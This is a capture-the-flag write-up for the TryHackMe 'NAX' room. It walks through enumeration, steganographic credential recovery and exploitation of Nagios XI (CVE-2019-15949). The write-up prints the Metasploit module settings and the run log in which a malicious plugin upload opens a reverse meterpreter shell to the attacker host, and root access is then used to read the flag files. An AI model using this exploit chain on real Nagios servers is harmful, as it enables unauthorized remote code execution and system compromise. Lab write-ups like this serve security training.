








# Try Hack Me Writeup - NAX

TryHackMe room: <https://tryhackme.com/room/nax>

Identify the critical security flaw in the most powerful and trusted network monitoring software on the market, that allows an user authenticated execute remote code execution.


**Are you able to complete the challenge?**

The machine may take up to 5 minutes to boot and configure


**WARNING: I stripped out the answers, passwords, flags and co. This writeup is pretty detailed. By following and doing the steps described here yourself you will get them all. The goal is to learn more about it, even if you get stuck at some point. Enjoy!**

## Table of Contents

- [Answer the questions](#answer-the-questions)
- [Setup](#setup)
- [Tools Used](#tools-used)
- [Enumeration of ports and services](#enumeration-of-ports-and-services)

## Answer the questions

- **What hidden file did you find?**
- **Who is the creator of the file?**
- **If you get an error running the tool on your downloaded image about an unknown ppm format -- open it with gimp or another paint program and export to ppm format, and try again!**
- **What is the username you found?**
- **What is the password you found?** _**Hint: % is a separator**_
- **What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000**
- **Now that we've found our vulnerability, let's find our exploit. For this section of the room, we'll use the Metasploit module associated with this exploit. Let's go ahead and start Metasploit using the command `msfconsole`.**
- **After Metasploit has started, let's search for our target exploit using the command 'search applicationame'. What is the full path (starting with exploit) for the exploitation module?**
- **Compromise the machine and locate user.txt**
- **Compromise the machine and locate root.txt**

## Setup

```commandline
$ export IP_TARGET=10.10.201.50
$ export WRITEUP="$HOME/Documents/THM/nax/"
$ mkdir -p $WRITEUP
$ cd $WRITEUP
$ tmux
```

## Tools Used

- nmap
- Wikipedia & Google (yeah, let's name them for once!)
- exiftool
- gobuster
- msfconsole

## Enumeration of ports and services

````commandline
# nmap -sCV $IP_TARGET 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-30 19:55 CEST
Nmap scan report for 10.10.201.50
Host is up (0.032s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:1d:d9:88:01:77:0a:52:bb:59:f9:da:c1:a6:e3:cd (RSA)
|   256 af:67:7d:24:e5:95:f4:44:72:d1:0c:39:8d:cc:21:15 (ECDSA)
|_  256 20:28:15:ef:13:c8:9f:b8:a7:0f:50:e6:2f:3b:1e:57 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: ubuntu.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-03-23T23:42:04
|_Not valid after:  2030-03-21T23:42:04
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-03-24T00:14:58
|_Not valid after:  2030-03-22T00:14:58
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: Host:  ubuntu.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.01 seconds
```` 



No clue what these geek boys did to me. So while typing these `Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr` in Google, it autocompleted for me and suggested this is about the [periodic table](https://en.wikipedia.org/wiki/Periodic_table). Google suggested me these search result in my native language, which is called [Perodiek systeem](https://nl.wikipedia.org/wiki/Periodiek_systeem). So why not to try to understand a bit this mystery. And honestly, on the Flemish/Dutch article, it's more obvious. I got it directly that there was a link.

- Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr
- 47 - 80 - 73 - 51 - 84 - 46 - 80 - 78 - 103

After a long period, not that table. I found out this was about `ASCII`. Looking up on Google for an `ASCII` to characters converter brought me to this after a lot of tries on other `[SENSORED WORD]` websites: <https://www.duplichecker.com/ascii-to-text.php>



Got that info, A hint that this point to a file on the webserver, so went it and downloaded the image.


Looked with the `exiftool`. Nothing found so far.

````commandline
$ exiftool [REDACTED] 
ExifTool Version Number         : 12.16
File Name                       : [REDACCTED]
Directory                       : .
File Size                       : 959 KiB
File Modification Date/Time     : 2021:08:30 20:30:39+02:00
File Access Date/Time           : 2021:08:30 20:31:05+02:00
File Inode Change Date/Time     : 2021:08:30 20:30:39+02:00
File Permissions                : rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 990
Image Height                    : 990
Bit Depth                       : 8
Color Type                      : Palette
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Palette                         : (Binary data 768 bytes, use -b option to extract)
Transparency                    : (Binary data 256 bytes, use -b option to extract)
Artist                          : Piet Mondrian
Copyright                       : Piet Mondrian, tryhackme 2020
Image Size                      : 990x990
Megapixels                      : 0.980
````

Looking with `strings [REDACTED] | less` gave me also not useful information. I stripped out the tons of new line in the output below and replaced it with `...`. But, nothing hidden inside there.

````commandline

$ cat [REDACTED]                                                                                 
IHDR                                  
PLTE                                  
tRNS                                  
=Fc@                                  
tEXtArtist                            
Piet Mondrian                         
'tEXtCopyright                        
Piet Mondrian, tryhackme 2020         
IDATx
...
IEND
````

Tried to do a Google Reverse Image search but did not work. Got the message from Google: `The image is too large (over 8,000 by 6,000 pixels) or Google can't read its encoding.`. While this is about a `900x900` and `959 KiB` image. So, something was going really wrong on this one.

Read a lot about `Piet Mondrian` on Goolge, fancy geek stuff, but reading that all, and you are busy for days, weeks if not more. So looked up on Google with the keywords `Piet Mondrian decode image` and found this website <http://www.bertnase.de/npiet/>. What interpellated me was the message on that website `Hint: If you get an error running npiet on your downloaded gif image about an unknown gif format -- just open it with gimp or another paint program and save it as ppm or png image -- and try again!  Have fun!`. Which phrased same way as in the 3rd question that does not require an answer. So, we are on the right place!

A painful website to read even if there is no fancy UI. But absolutely not clear and lost a lot of time to figure out what or how. Finally after a while i found there a link `npiet online`, `run a piet program right now!`. (Grab the link yourself :-P)



Once there, we can upload an image, the image we grabbed earlier. Tried that image, and indeed, got issues with the original file. Used `Gimp` to open the image and export it again as another file name. Then it worked.



_Actually, even with that bugged file that has an issue, you get what you need to get, if you know what you need to get: the user and password. But for that you need to realize this._



It took me ages to realise, that the username and password was under the image and not yet another error message. This was really confusing to me. _Please the file issue and would be less confusing._ I was still thinking that something was not working with this image. Even converted that to PPM, but then `npiet` complained it was too big. I was ready to skip this question in this CTF, and jump to the next question. Then read that next question and the hint which indicate "`% is a separator`". This hint should have been placed on the previous question ;-) 

My `gobuster` scan also finished by then, which gave me the final hint. But hold on... 



After that (first) `%` I though the rest behind was the password. A very long one. Lucky, I copy & pasted that into a text editor, and I felt like I was drunken! And that with my cup of thea next to me. Hopefully you see the pattern in the screenshot. The username and password are repeated an x number of times. So we have to take what we need, not the whole thing.



Ran a `gobuster` a while ago, even forgot that I already started that slow webserver enumeration process. So now we know also where to go.

````commandline
$ gobuster dir --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://$IP_TARGET
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.201.50
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/30 20:51:43 Starting gobuster in directory enumeration mode
===============================================================
/javascript           (Status: 301) [Size: 317] [--> http://10.10.201.50/javascript/]
/nagios               (Status: 401) [Size: 459]                                      
/server-status        (Status: 403) [Size: 277]                                      
                                                                                     
===============================================================
2021/08/30 21:03:08 Finished
===============================================================
````

So going on <http://10.10.201.50/nagios/> pop up a login box, where we can enter the credentials we found, and we can then can log in. We immediately notice the message `A new version of Nagios Core is available! Visit nagios.org to download Nagios 4.4.5.`. Above that message, we see in bold `Nagios® Core™ Version 4.4.2 August 16, 2018`. I like tools, so I looked a bout around, but this is only configured for this host, so nothing fun.



Looking around on [exploit-db](https://www.exploit-db.com), there are a lot of things, not clearly mentioned for version `4.4.2`, so this is a lot of opening one by one and reading the comments into the source code. Casual stuff in fact. Finally, found a `metasploit`, titled `Nagios XI - Authenticated Remote Command Execution (Metasploit)` with ref [EDB-ID 48191](https://www.exploit-db.com/exploits/48191) referencing to [CVE-2019-15949](https://nvd.nist.gov/vuln/detail/CVE-2019-15949). This is it! Not Michael Jackson, that is too late. So starting up `msfconsole` and again a search.

````commandline
msf6 > search nagios

Matching Modules
================

   #   Name                                                                 Disclosure Date  Rank       Check  Description
   -   ----                                                                 ---------------  ----       -----  -----------
   0   exploit/linux/misc/nagios_nrpe_arguments                             2013-02-21       excellent  Yes    Nagios Remote Plugin Executor Arbitrary Command Execution
   1   exploit/linux/http/nagios_xi_snmptrap_authenticated_rce              2020-10-20       excellent  Yes    Nagios XI 5.5.0-5.7.3 - Snmptrap Authenticated Remote Code Exection
   2   exploit/linux/http/nagios_xi_mibs_authenticated_rce                  2020-10-20       excellent  Yes    Nagios XI 5.6.0-5.7.3 - Mibs.php Authenticated Remote Code Exection
   3   exploit/linux/http/nagios_xi_chained_rce                             2016-03-06       excellent  Yes    Nagios XI Chained Remote Code Execution
   4   exploit/linux/http/nagios_xi_chained_rce_2_electric_boogaloo         2018-04-17       manual     Yes    Nagios XI Chained Remote Code Execution
   5   post/linux/gather/enum_nagios_xi                                     2018-04-17       normal     No     Nagios XI Enumeration
   6   exploit/linux/http/nagios_xi_magpie_debug                            2018-11-14       excellent  Yes    Nagios XI Magpie_debug.php Root Remote Code Execution
   7   exploit/unix/webapp/nagios_graph_explorer                            2012-11-30       excellent  Yes    Nagios XI Network Monitor Graph Explorer Component Command Injection
   8   exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce  2019-07-29       excellent  Yes    Nagios XI Prior to 5.6.6 getprofile.sh Authenticated Remote Command Execution
   9   exploit/linux/http/nagios_xi_plugins_filename_authenticated_rce      2020-12-19       excellent  Yes    Nagios XI Prior to 5.8.0 - Plugins Filename Authenticated Remote Code Exection
   10  auxiliary/scanner/http/nagios_xi_scanner                                              normal     No     Nagios XI Scanner
   11  exploit/unix/webapp/nagios3_history_cgi                              2012-12-09       great      Yes    Nagios3 history.cgi Host Command Execution
   12  exploit/unix/webapp/nagios3_statuswml_ping                           2009-06-22       excellent  No     Nagios3 statuswml.cgi Ping Command Execution


Interact with a module by name or index. For example info 12, use 12 or use exploit/unix/webapp/nagios3_statuswml_ping
````

It is sometimes an issue to find back the exploit in the `msfconsole` from the info you gathered on [exploit-db](https://www.exploit-db.com) as wel as other vulnerability database websites. They do not keep the same names and description somehow, and they do not update older released information/code either. So I had to look with the info command 8 times :-D I preferred to look at the info of each of them to be sure. But in this case, I could have found it easier because in the description of the function of the code on [exploit-db](https://www.exploit-db.com) there is noted `This module exploits a vulnerability in Nagios XI before 5.6.6 in order to execute arbitrary commands as root.`. So let's use it.

````commandline
msf6 > use 8
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) >
````

We now need to look at the options and to what we need to define.

````commandline
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > show options
                                                                                                                                                                  
Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so. This includes signing the license agreement.
   PASSWORD                         yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        [REDACTED]       yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)
````

So I have set what is needed.

````commandline
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set PASSWORD [REDACTED]
PASSWORD => [REDACTED]
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RHOST 10.10.201.50
RHOST => 10.10.201.50
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set LHOST tun0
LHOST => 10.8.208.30
````

Once done, execute `run` (or `exploit`) to launch the beast:

````commandline
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run

[*] Started reverse TCP handler on 10.8.208.30:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.5.6
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3012548 bytes) to 10.10.201.50
[*] Meterpreter session 1 opened (10.8.208.30:4444 -> 10.10.201.50:42854) at 2021-08-30 23:21:38 +0200
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter >
````

This is it! Sorry Micky, Rest In Peace. So now it's time to loot what we need.

````commandline
meterpreter > pwd
/usr/local/nagiosxi/html/includes/components/profile
meterpreter > ls /home/
Listing: /home/
===============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2020-03-25 04:45:51 +0100  galand

meterpreter > ls /home/galand 
Listing: /home/galand
=====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  481   fil   2020-03-25 05:07:21 +0100  .bash_history
100644/rw-r--r--  220   fil   2020-03-23 18:38:06 +0100  .bash_logout
100644/rw-r--r--  3771  fil   2020-03-23 18:38:06 +0100  .bashrc
40700/rwx------   4096  dir   2020-03-23 23:59:15 +0100  .cache
40755/rwxr-xr-x   4096  dir   2020-03-24 00:42:44 +0100  .cpan
40700/rwx------   4096  dir   2020-03-24 00:42:45 +0100  .gnupg
40775/rwxrwxr-x   4096  dir   2020-03-25 04:45:26 +0100  .nano
100644/rw-r--r--  655   fil   2020-03-23 18:38:06 +0100  .profile
100600/rw-------  1024  fil   2020-03-24 01:08:28 +0100  .rnd
40755/rwxr-xr-x   4096  dir   2020-03-24 01:04:03 +0100  .subversion
100644/rw-r--r--  0     fil   2020-03-23 23:59:40 +0100  .sudo_as_admin_successful
40755/rwxr-xr-x   4096  dir   2020-03-24 01:08:49 +0100  nagiosxi
100664/rw-rw-r--  38    fil   2020-03-25 04:45:51 +0100  user.txt

meterpreter > cat /home/galand/user.txt 
THM{84*****d1d72a9f2e99c33bc5*****f1}
meterpreter > cat /root/root.txt 
THM{c8*****9c83067503a6508b21*****62}
````

Mission accomplished!

